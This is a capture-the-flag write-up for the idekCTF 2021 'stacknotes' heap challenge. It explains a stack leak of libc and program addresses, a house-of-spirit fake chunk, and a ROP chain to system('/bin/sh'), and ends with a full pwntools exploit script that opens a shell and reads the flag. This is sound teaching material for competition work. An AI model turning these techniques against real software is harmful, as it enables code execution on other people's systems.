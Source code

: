 # Stacknotes

was pwn challenge from idekCTF 2021

it was a heap challenge,

nice menu as you can see :)

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/menu.png)

the source code was provided, but you have to study the binary also to understand how to exploit it...

in the original source code you can see, the stacknote (c)reate function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/source.png)

you can see that you can allocate a chunk up to 0x1000 bytes, that is allocated with malloca..

but, compiler's produced malloca code shows that chunks below 512 bytes will be allocated on stack (and aligned),

and that chunks above 512 bytes will be allocated with malloc.. that's important to know for the rest of the exploitation

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/reverse.png)


So first, we will allocate a chunk on stack, and as alloca does not clear the allocated chunk,

we will leak the usefull values already present on stack in this chunk:

* the libc address of `_IO_2_1_stdout_` that we will use to calculate libc mapping address base..

* an address belonging to the program, that we will use to calculate prog base

No we allocate another chunk of 31bytes on stack , it will be just before our first chunk (as stack grows downward)

and we will create a fake chunk, to make a "house of spirit" attack.. a chunk of 0x300 size...

now we delete our first bloc, that will go in 0x300 chunk list..

when we allocate it again, we will get a chunk on stack (bigger than the original),

where we can directly write our ROP over the return address (and jumping over the canary)..

and that's it we got shell

![](https://github.com/nobodyisnobody/write-ups/raw/main/idekCTF.2021/pwn/stacknotes/pics/gotshell.gif)


ok...

If you understand nothing on my explanation,

you can read the code...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./stacknotes')
libc = ELF('./libc.so.6')
rop = ROP(exe)

host, port = "stacknotes.chal.idek.team", "1337"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

def create(idx,size):
  p.sendlineafter('> ','c')
  p.sendlineafter('note?\n', str(idx))
  p.sendlineafter('note?\n', str(size))

def write(idx,data):
  p.sendlineafter('> ','w')
  p.sendlineafter('in?\n', str(idx))
  p.sendafter('content:\n', data)

def delete(idx):
  p.sendlineafter('> ','d')
  p.sendlineafter('delete?\n', str(idx))

def view(idx):
  p.sendlineafter('> ','v')
  p.sendlineafter('view\n', str(idx))

# create a buffer on stack
create(0,112)
# leak various usefull address on stack
view(0)

p.recvuntil('Note:\n', drop=True)
buff = p.recv(112)

libc.address = u64(buff[0:8]) - libc.sym['_IO_2_1_stdout_']
print('libc base = '+hex(libc.address))
progbase = u64(buff[8:16]) - 0x2224
print('prog base = '+hex(progbase))

create(1,31)
# House of spirit , create a false chunk on stack
write(1,p64(0)*3+'\x00\x03'+'\x00'*5)
# put fake chunk in tcache list
delete(0)

# get our big chunk allocated on stack
create(2,0x2f0)
view(2)
p.recvuntil('Note:\n', drop=True)
buff = p.recv(0x2f0)
buff = bytearray(buff)

pop_rdi = progbase+rop.find_gadget(['pop rdi', 'ret'])[0]
ret = progbase+rop.find_gadget(['ret'])[0]

# directly wrote a ROP at return address on stack (system('/bin/sh'))
buff[152:160] = p64(pop_rdi)
buff[160:168] = p64(next(libc.search('/bin/sh')))
buff[168:176] = p64(ret)
buff[176:184] = p64(libc.sym['system'])

# write our modified buffer
write(2, bytes(buff))

# got shell
p.sendlineafter('> ','e')

p.sendline('id;cat /flag*')
p.interactive()
```

*nobodyisnobody still pwning things...*

